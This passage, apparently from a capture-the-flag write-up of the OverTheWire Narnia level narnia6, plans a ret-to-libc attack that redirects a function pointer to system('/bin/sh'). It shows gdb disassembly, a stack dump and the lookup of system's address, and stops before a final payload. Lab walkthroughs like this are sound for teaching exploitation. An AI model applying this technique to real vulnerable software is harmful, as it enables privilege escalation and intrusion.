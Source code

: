 The last lines means we need to point `fp` to a call in a system library. 
This is going to be a [ret to libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack). We 
need to find the location of the function we want to execute. We want a shell, so our 
best option would be to execute `system('/bin/sh')`. As luck would have it, `puts` and
`system` both have the same function definition: `int system(const char *command);` and
`int puts(const char *s);`

Let's fire up gdb and figure out our addresses.
{{< highlight console >}}
narnia6@melinda:/narnia$ gdb ./narnia6 -q
Reading symbols from ./narnia6...(no debugging symbols found)...done.
(gdb) disass main
Dump of assembler code for function main:
   0x08048559 <+0>:	push   %ebp
   0x0804855a <+1>:	mov    %esp,%ebp
   0x0804855c <+3>:	push   %ebx
   0x0804855d <+4>:	and    $0xfffffff0,%esp
   0x08048560 <+7>:	sub    $0x30,%esp

    <-- snip -->

   0x0804869b <+322>:	movl   $0xffffffff,(%esp)      
   0x080486a2 <+329>:	call   0x8048410 <exit@plt>
   0x080486a7 <+334>:	lea    0x20(%esp),%eax
   0x080486ab <+338>:	mov    %eax,(%esp)
   0x080486ae <+341>:	mov    0x28(%esp),%eax
   0x080486b2 <+345>:	call   *%eax                <-- calling *fp*
   0x080486b4 <+347>:	movl   $0x1,(%esp)
   0x080486bb <+354>:	call   0x8048410 <exit@plt>
End of assembler dump.

(gdb) break *0x080486b2
Breakpoint 1 at 0x80486b2
(gdb) r aaaaaaaabbbb ccccccccdddd
Starting program: /games/narnia/narnia6 aaaaaaaabbbb ccccccccdddd

Breakpoint 1, 0x080486b2 in main ()
(gdb) x/50wx $esp
0xffffd680:	0xffffd6a0	0xffffd8ac	0x00000021	0x08048712
0xffffd690:	0x00000003	0xffffd754	0x63636363	0x63636363
0xffffd6a0:	0x64646464	0x61616100	0x62626262	0x00000000
0xffffd6b0:	0x080486c0	0xf7fca000	0x00000000	0xf7e3ca63
0xffffd6c0:	0x00000003	0xffffd754	0xffffd764	0xf7feacea
0xffffd6d0:	0x00000003	0xffffd754	0xffffd6f4	0x08049978
0xffffd6e0:	0x08048290	0xf7fca000	0x00000000	0x00000000
0xffffd6f0:	0x00000000	0x32aaee13	0x0a932a03	0x00000000
0xffffd700:	0x00000000	0x00000000	0x00000003	0x08048450
0xffffd710:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
0xffffd720:	0x00000003	0x08048450	0x00000000	0x08048471
0xffffd730:	0x08048559	0x00000003	0xffffd754	0x080486c0
0xffffd740:	0x08048730	0xf7feb180
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e62cd0 <system>
(gdb) c
Continuing.
